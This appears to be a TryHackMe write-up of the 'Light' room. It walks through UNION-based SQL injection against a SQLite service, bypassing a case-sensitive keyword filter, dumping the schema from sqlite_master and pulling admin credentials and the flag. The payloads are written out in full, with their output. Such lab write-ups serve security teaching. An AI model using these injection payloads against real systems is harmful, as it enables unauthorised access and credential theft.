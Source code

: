 ```yaml
---
title: "TryHackMe: Light"
author: Vitorx
categories: [TryHackMe]
tags: [Tryhackme Writeup, sql, sql injection, sqlite]
render_with_liquid: false
img_path: /images/tryhackme_light/
image:
  path: /images/tryhackme_light/light-tryhackme.webp
---
```


**Light** is a `TryHackMe` challenge focused on `SQL Injection` in an SQLite database. The objective is to exploit a vulnerable application to obtain administrator credentials and the final flag. The challenge teaches essential SQL Injection exploitation techniques, highlighting the importance of proper security measures such as input validation and parameterized queries. You can access it by clicking [here](https://tryhackme.com/r/room/lightroom).

## Discovering SQL Injection

According to the room instructions, when connecting to the service on port `1337`, we encounter a database application.

```console
$ rlwrap nc 10.10.184.219 1337
```
The system returns a message indicating that we are interacting with a database called Light:

```console
Welcome to the Light database!
Please enter your username:
```

The room also suggests using the username `smokey` to start the session. Upon entering it, we receive the corresponding password:

```console
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
```

Since we are dealing with a database-driven application, the first exploitation attempt is to test for `SQL Injection` vulnerability. To do this, we use a simple `'` (single quote) as input. If the system does not properly handle inputs, this attempt may trigger a revealing error:

```console
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
```

The error indicates that the application might be vulnerable, as the input broke the original SQL query.

## Attempting UNION SELECT Injection

To extract information from the database, we attempt a `UNION-based` SQL Injection to merge our query with another table.

```console
Please enter your username: ' UNION SELECT 1-- -
```

However, the system returns an unusual error, stating that certain characters and sequences like `/*`, `--`, and `%0b` are not allowed:

```console
Please enter your username: ' UNION SELECT 1-- -
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
This means the application has a filtering mechanism to prevent common `SQL Injection` attacks.

## Bypassing Keyword Restrictions

Since we cannot comment out the query to prevent errors, we need to adapt the payload. As `SELECT 1 ''` is a valid query, we can modify our input as follows:

```console
Please enter your username: ' UNION SELECT 1 '
```
However, doing so results in another restriction:

```console
Please enter your username: ' UNION SELECT 1 '
Ahh there is a word in there I don't like :(
```

It appears that the keywords `UNION` and `SELECT` are blocked. But, by testing different capitalizations, we discover that the filter is case-sensitive:

```console
Please enter your username: UNION
Ahh there is a word in there I don't like :(

Please enter your username: SELECT
Ahh there is a word in there I don't like :(

Please enter your username: Union
Username not found.

Please enter your username: Select
Username not found.
```
This allows us to bypass the filter using alternate capitalization:

```console
Please enter your username: ' Union Select 1 '
```

With this, we successfully execute the injection!

```console
Please enter your username: ' Union Select 1 '
Password: 1
```

## Identifying the Database Management System (DBMS)

Now that we have successfully performed a UNION-based injection, we can determine which database management system (DBMS) is being used. We try some common functions:

```console
Please enter your username: ' Union Select version() '
Error: no such function: version
```

```console
Please enter your username: ' Union Select USER_ID(1) '
Error: no such function: USER_ID
```

When we try the function `sqlite_version()`, we finally get a valid response:

```console
Please enter your username: ' Union Select sqlite_version() '
Password: 3.31.1
```

## Extracting the Database Structure

Knowing that we are in an SQLite environment, we can list the tables and their respective structures by querying the internal `sqlite_master` table:

```console
Please enter your username: ' Union Select group_concat(sql) FROM sqlite_master '
```

The response reveals the database structure:

```console
Password: CREATE TABLE usertable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER),CREATE TABLE admintable (
                   id INTEGER PRIMARY KEY,
                   username TEXT,
                   password INTEGER)
```

Now we know that there are at least two relevant tables: usertable and admintable.

## Extracting Sensitive Data

Our goal is to obtain the administrator's credentials. We can do this by extracting the `username` and `password` fields from the `admintable`:

```console
Please enter your username: ' Union Select group_concat(username || ":" || password) FROM admintable '
Password: VHJ5SGFja01lQWRtaW46bWFtWnRBdU1scnNFeTVicDZxMTcsZmxhZzpUSU17U1FMaXQzX0luSjNjVGlvbl9pc19TaW1wbGVfbk99
```

## Conclusion

In this exploration, we used several techniques to perform an `SQL Injection` attack on an `SQLite database`:

✅ Identified the vulnerability by testing a simple input (''); \
✅ Bypassed keyword restrictions using alternate capitalization; \
✅ Confirmed the database was SQLite by executing version queries; \
✅ Extracted the database structure using sqlite_master; \
✅ Retrieved credentials and the flag via a UNION SELECT.

These methods demonstrate how SQL Injection remains a critical vulnerability and how an attacker can exploit this flaw to extract confidential information from insecure systems.

Always validate user inputs and use parameterized queries to prevent such exploitation! 🚀
